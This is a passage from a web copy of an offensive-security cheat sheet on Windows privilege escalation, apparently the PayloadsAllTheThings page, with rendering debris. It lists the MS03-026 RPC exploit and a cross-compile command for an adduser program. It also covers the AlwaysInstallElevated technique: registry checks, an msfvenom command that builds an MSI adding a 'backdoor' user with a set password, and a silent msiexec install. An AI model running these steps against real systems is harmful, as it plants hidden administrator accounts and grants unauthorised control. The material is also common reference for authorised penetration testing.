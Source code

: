 ...

- [MS03-026](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/MS03-026) 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)

To cross compile a program from Kali, use the following command.
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='67'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2078' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---alwaysinstallelevated)EoP - AlwaysInstallElevated

Check if these registry values are set to "1".

$ reg  query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ reg  query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Then create an MSI package and install it.
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi

Technique also available in Metasploit : `exploit/windows/local/always_install_elevated`

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='68'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2098' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---insecure-gui-apps)EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.
